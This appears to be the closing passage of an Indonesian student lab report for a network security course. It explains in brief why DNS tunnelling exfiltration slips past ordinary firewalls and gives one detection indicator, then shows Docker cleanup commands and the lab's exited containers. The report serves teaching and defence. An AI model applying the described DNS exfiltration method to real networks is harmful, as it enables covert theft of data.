- **Alasan sulit diblokir firewall biasa:** Firewall konvensional hampir selalu membiarkan port **UDP/TCP 53** terbuka untuk kebutuhan resolusi domain normal, sementara payload data curian disamarkan menjadi label subdomain yang tampak seperti kueri DNS yang sah.
- **Satu indikator deteksi:** Kemunculan label subdomain berukuran sangat panjang (misalnya `> 30` karakter) yang tersusun atas karakter heksadesimal/Base64 berentropi tinggi dan tidak wajar, disertai lonjakan kueri unik menuju satu domain induk tertentu.

---

## Verifikasi Pembersihan Lab (Cleanup)

```text
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker volume rm vol-k8
vol-k8
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker ps -a
CONTAINER ID   IMAGE                    COMMAND                   CREATED        STATUS                     PORTS     NAMES
cc83b470f5ab   ubuntu:22.04             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             dns-resolver-target
a58cddf4a745   ubuntu:22.04             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             dns-auth-server
a38c7d035bcd   ubuntu:22.04             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             web-dns-target
46b7afa899f6   ubuntu:22.04             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             client-dns
49051ca68742   02f5d6c019e5             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             monitor-dns
0b2da7b46f5c   02f5d6c019e5             "/bin/bash -c '\napt-…"   13 days ago    Exited (137) 13 days ago             attacker-dns
9e3730a08bd0   ubuntu:22.04             "bash -c ' apt-get u…"    3 weeks ago    Exited (137) 3 weeks ago             target-l3
92d2c54a0708   ubuntu:22.04             "bash -c ' apt-get u…"    3 weeks ago    Exited (127) 3 weeks ago             dhcp-server-target
7f81415b93d6   02f5d6c019e5             "bash -c ' apt-get u…"    3 weeks ago    Exited (137) 3 weeks ago             attacker-l3
b99bdd28c5ba   02f5d6c019e5             "sleep infinity"          3 weeks ago    Exited (137) 3 weeks ago             monitor-l3
236773eb5ebd   ubuntu:22.04             "/bin/bash"               3 weeks ago    Exited (137) 3 weeks ago             wifi-ap-target
4eac739f9db1   02f5d6c019e5             "bash"                    3 weeks ago    Exited (137) 3 weeks ago             kali-wireless-lab
d18effe21b13   785835ea65db             "/docker-entrypoint.…"    3 weeks ago    Exited (0) 3 weeks ago               web-asli
b9b508a8983a   785835ea65db             "/docker-entrypoint.…"    3 weeks ago    Exited (0) 3 weeks ago               web-palsu
41ac6c15d67a   ubuntu:22.04             "bash -c ' apt updat…"    3 weeks ago    Exited (137) 3 weeks ago             korban
be258081b3b3   02f5d6c019e5             "bash -c ' apt updat…"    3 weeks ago    Exited (137) 3 weeks ago             penyerang
e76ad4fc22fa   02f5d6c019e5             "bash"                    5 weeks ago    Exited (137) 5 weeks ago             kali-attacker
4bc5fe9e1804   vulnerables/web-dvwa     "/main.sh"                5 weeks ago    Exited (137) 5 weeks ago             target-web
3927678859e6   gophish/gophish:latest   "./docker/run.sh"         5 months ago   Exited (137) 3 weeks ago             gophish
a87dd4b728a8   mailhog/mailhog:latest   "MailHog"                 5 months ago   Exited (2) 3 weeks ago               mailhog
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker network ls
NETWORK ID     NAME                  DRIVER    SCOPE
18760a33f7fc   bridge                bridge    local
62a2733d8663   host                  host      local
fd1380a03789   l3-lab_l3-lab         bridge    local
afad079f24c7   lab-arp_lab_network   bridge    local
841c06848afe   labs_dns-lab          bridge    local
ef53ad7efc41   none                  null      local
ebf9ca985798   wifi-lab_default      bridge    local
PS D:\Downloads\Network-Security-Course-Bank-main\UTS-Network-Security\01-sumber-lab> docker volume ls
DRIVER    VOLUME NAME
```
*(Keterangan: Volume `vol-k8`, jaringan `lab-arp-k8`, serta container/jaringan compose `k8` sudah dihapus seluruhnya; daftar `docker volume ls` kosong dan entri pada `docker ps -a` maupun `docker network ls` hanya menyisakan artefak praktikum sebelumnya yang sudah `Exited`.)*

### Bukti Screenshot Cleanup
